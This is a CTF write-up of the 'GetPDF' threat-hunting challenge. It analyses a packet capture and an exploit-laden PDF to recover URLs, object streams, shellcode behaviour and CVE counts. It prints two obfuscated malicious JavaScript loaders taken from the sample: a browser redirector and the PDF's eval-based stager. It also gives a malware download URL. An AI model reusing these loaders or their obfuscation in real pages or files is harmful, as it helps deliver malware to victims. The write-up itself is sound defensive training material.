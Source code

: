 ```yaml
---
layout: post
title: GetPDF Threat Hunting writeup
categories: [CTF, Forensics, Threat-Hunting]
tags: [CTF, Malware-Analysis, Incident-Response, Blue-team]
---
```

Point: 1200

<https://cyberdefenders.org/blueteam-ctf-challenges/progress/rootware/47/>

## Category

Forensics, Threat-Hunting, Malware-Analysis

## Solution

### How many URL path(s) are involved in this incident?

```text
http.request.method == GET
```

![urls](https://bn1304files.storage.live.com/y4mmXHVA4_f8_rptvJ3AYRhc4Jjf9v-JQ_2IyJwHm9Tr8PD-CZO-vH_rYZ9gaKD8v6RlMitdVDpJw60il_NeQB3UcOlceHRilWr9qC1TE0-C5X1xZHsDvqYhYCQTNWidTHV53vFi5ZrnpHi1Fc5UjbGL8L6rYQaIOc794useH_JurBxV-xBI3PG9K3JiUwtRPDF7e-Uew1kvH3muwGY3LfeV7It2HcqvA4qonINTW1rrCg?encodeFailures=1&width=2240&height=260)
There are altogether 6 unique URLs after analyzing the pcap file in wireshark.
Answer: 6

### What is the URL which contains the JS code?

![jsurl](https://bn1304files.storage.live.com/y4m_sMT6AAoqLe7hkAWZ14UwkmMlTUqpP2a8yphzkwiUDLrojLoQtWikt4UbTDqItuicW-NpI8uob_TSt5xxyd7im1r8fevxwOFwpzl3eJ3H9_J28ScjPI2OxXY7PB0yPu1_T19V6x5YYZ3OLfAtCLUztWHEKn0F9dT59QWLmynGp5WJgle8xzMkvubmR4j6pRGCrgpQAPpbLic7474ynSC-PjIs2jCrMUdI-PSacW8zaQ?encodeFailures=1&width=2864&height=1502)
So the full URL path that contains the JS code is
<http://blog.honeynet.org.my/forensic_challenge/>

### What is the URL hidden in the JS code?

After extracting the JS code and using beautifier.io to decipher the JS code, we can see that the code is constructing a URL.

```javascript
var DepanNegw = window;
var DexeTelae = -44;
DexeTelae += 45;
XayeZebah = 'nedajemac';
var GaDemee = 'e5vfqaIVblI5'.replace(/[5fqIVbI5]/g, '');
ZavevTa = 'fazemezarawaseb';
var MezRai = parseInt;
var DayahDet = 'zafezed lacet cetexet jevecakemahamaha febenep cafa fezebefe yelaxa xejarer hejefaqazedeka kebeneh petaqe zevexej jenewabahegehar jabevame bayap def vasefezetevamer nefelaba sezaxewe qajeqeme wet reyeqer magemefele xelawece denew jafelev haweqa kel vatabaser mag vejefama xeca canapevezejev benaper gezazevaja zeyaxaf wehekeh jecalava set senajaj re kameken bazafakaqewate zaralek yecele kak s hexebeka heha jeyeteg sase wayefewa tey gawewem wefaravavepayeke xedevec gavayedegeqer casehes watenanesajet jelagal payevexebe pejasep heqefagabexemew deheler vejegeca hece rafenadamenaxe jaz fex hekases pazetepajamelew cerasej nevayezabevepeke pex gey dac g dezaleza kekeqebe peyemaf sevanededa cefagey defef cexaqehe sebex galahal zadaxaran lava falamedejegase set law mefe wa mex ces nam j xaxaped gexeqageb feqeled daseze tehadeh zeheteyera xanahef wepahena xarakel gadazecaq tabexape dareq seje lejegagaxavade haf jaz cewe me cag kem fed h legefaz taw keyacah wefereweverewaze rapecame kas fagavev facez yefeley lareke seperene gav lece gahepegesafeve dez gen yeje s waz qas xap c hademax mezezah qepawehe vad zejates pe cehajeg sabebaseqeseda sekesav nebeda cagareg kec fexewel bejewagedegeqene bajesade lav pasepad baraj xecavan vedepe veranake vej heva kejajemacajada wez saj vele x qaj vad fag y qetamefe jaxa kamatare net zeheweh jeme bale cexebedeleneye dab vev kekaxex jetecajek lejekabe qalef bevegeye caxeb beleteqe r hele saxafexazat baz dehakajegeqeneke met mefepexafecebera qwertyu iop asdfghj klzxcvbnmqwer tyuiopa sdfghjklzxcvbnmq hjklzxc vbnmqwer tyu iopasdfghjklzxc vbnmqwe rtyuiopas dfghjkl zxcvbnmqwertyuio pasdfgh jklzxcvbnmqwert yuiopas dfghjk lzxcvbnm qwertyuiop asdfghj klzxcvbnmqwerty uiopasd fghjkl zxcvbnmq werty uio pasdfghjklzxcvb nmqwert yuiopasdfghjklzx cvbnmqwe rty uiopasd fghjklzx uio pasdfghjklzxcvb nmqwert uiopasdfghjklz qwertyui opasdfghjk xcr vbnmqwertyuiopar sdfghjr klzxcvr bnmqwer rtyuiopasdfghjkr lzxcvbnr mqr wertyur iopasr dfghjkr lzxcvbnmqwertyr uiopasdr fghr jklzxcr vbnmqwertr yuiopar sdfr ghjklr zxcvbnmqwertyuir opasdfr ghjr klzxcvr bnmqwertr yuiopar sr dfghjkr lzxcvbnmqwerr dfghjkr lzxcvbnmqwerr tyuiopr asdfgr hjklzxr cvbnmqwertyuior pasdfgr hjklzxcr vbnmqwr ertyur met mefepexafecebera xanahef wepahena feqeled daseze tabexape dareq zexelede l cefagey defef hademax mezezah req batekeqaheteceh zateyene c zekeqay ratevecek veheleqe k dec tec xece jefexazeqayefes cama bapevexeladet keh lanawebasegecaja qefejev qepetekene dacegas relevaj fecasece ber veyayes ba kajebed savaketegemeqe wepecer lamege tere ratavacevejezax gey dasalaje gav yepakekehe'.split(' ');
var ZeJexn = '';
var SerayYafags = String;
var KesXanavn = -50;
KesXanavn += 66;
XadHef = 78;
var BeZao = 47;
BeZao += -47;
var FeceSabejo = -46;
FeceSabejo += 48;
GebJep = 92;
var SeWajec = 'ftr9wogmBwJCW5h6aixrPRCs1ZonjHjdjKueMkD'.replace(/[t9wgBwJW56ixPRs1ZnjHjjKuMkD]/g, '');
MaqTa = 5;
GaDemee = DepanNegw[GaDemee];
SeWajec = SerayYafags[SeWajec];
for (YajMedei = BeZao; YajMedei < DayahDet.length - 1; YajMedei += FeceSabejo) ZeJexn += SeWajec(MezRai((DayahDet[YajMedei + BeZao].length - 1).toString(KesXanavn) + (DayahDet[YajMedei + DexeTelae].length - 1).toString(KesXanavn), KesXanavn));
GaDemee(ZeJexn);
```

The code is run in chrome browser console and returned an error message saying that it is actually requesting a URL which is blocked by chrome due to the request being insecure
<http://blog.honeynet.org.my/forensic_challenge/getpdf.php>

### What is the MD5 hash of the PDF file contained in the packet?

1. Export the `fcexploit.pdf` file from the http requests within wireshark.
2. Hash the file using md5 command as below.

```bash
md5 fcexploit.pdf 
```

```shell
MD5 (fcexploit.pdf) = 659cf4c6baa87b082227540047538c2a
```

### How many object(s) are contained inside the PDF file?

```bash
wget https://raw.githubusercontent.com/mlodic/pdfid/main/pdfid/pdfid.py
python pdfid.py fcexploit.pdf
```

```shell
PDFiD 0.2.7 fcexploit.pdf
 PDF Header: %PDF-1.3
 obj                   19
 endobj                18
 stream                 5
 endstream              5
 xref                   1
 trailer                1
 startxref              1
 /Page                  2
 /Encrypt               0
 /ObjStm                0
 /JS                    1
 /JavaScript            1
 /AA                    0
 /OpenAction            1
 /AcroForm              1
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          1
 /XFA                   1
 /Colors > 2^24         0
```

There are 19 objects.

### How many filtering schemes are used for the object streams?

By user pdf-parser the pdf file's streams can be analyzed

```bash
pdf-parser fcexploit.pdf  
```

```shell
obj 4 0
 Type: /Action
 Referencing: 5 0 R

  <<
    /Type /Action
    /S /JavaScript
    /JS 5 0 R
  >>


obj 5 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 395
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>
```

In the output above object 4 which contains javascript code is referencing object 5 which filters the contents of object 4. From the `/Filter` we can see that there are 4 encoding functions.

### What is the number of the 'object stream' that might contain malicious JS code?

```javascript
var SSS = null;
var SS = "ev";
var $S = "";
$5 = "in";
app.doc.syncAnnotScan();
S$ = "ti";
if (app.plugIns.length != 0) {
    var $$ = 0;
    S$ += "tl";
    $5 += "fo";
    ____SSS = app.doc.getAnnots({nPage: 0});
    S$ += "e";
    $S = this.info.title;
}
var S5 = "";
if (app.plugIns.length > 3) {
    SS += "a";
    var arr = $S.split(/U_155bf62c9aU_7917ab39/);
    for (var $ = 1; $ < arr.length; $++) {
        S5 += String.fromCharCode("0x" + arr[$]);
    }
    SS += "l";
}
if (app.plugIns.length >= 2) {
    app[SS](S5);
}
```

The above stream contains malicious JS code.
Answer: 5

### Analyzing the PDF file. What 'object-streams' contain the JS code responsible for executing the shellcodes? The JS code is divided into two streams. Format: two numbers separated with ','. Put the numbers in ascending order

Analyze the PDF file in PDFStreamDumper. Debug the JS script in object 5. The JS gets the content of the 10th object stream and removes the "U_155bf62c9aU_7917ab39" string from it.

Scan the resulted JS code from the previous step. The JS gets the content of the 9th object stream and removes the "X_17844743X_170987743" string from it, then gets the content of the 7th stream and removes the "89af50d" string, then concatenate the 2 JS code. The answer is 7,9

### The JS code responsible for executing the exploit contains shellcodes that drop malicious executable files. What is the full path of malicious executable files after being dropped by the malware on the victim machine?

The JS code contains 4 different versions of the same shellcode.

Using scdbg to emulate any one of the shellcodes. You will find that the shellcode calls URLDownloadToFileA API. The answer is c:\WINDOWS\system32\a.exe

### The PDF file contains another exploit related to CVE-2010-0188. What is the URL of the malicious executable that the shellcode associated with this exploit drop?

Using `pdf-parser -a fcexploit.pdf` command. You will get that the 11th object stream contains an Embedded object.

Analyze the PDF in PDFStreamDumper and check the 11th object stream in the PDF file. Extract the content of the object stream.

Use file utility to check the file type. The file is Zlib compressed. Use PDFStreamDumper -> Tools -> Zlib Decompress_file to get the actual content of the exploit

Decode the base64 string you will get the shellcode. Using scdbg to emulate the shellcode. The URL is <http://blog.honeynet.org.my/forensic_challenge/the_real_malware.exe>

### How many CVEs are included in the PDF file?

Answer: 5
The JS code extracted from the 7th and 9th streams contains 4 CVEs, and the 11th stream has the 5th one.
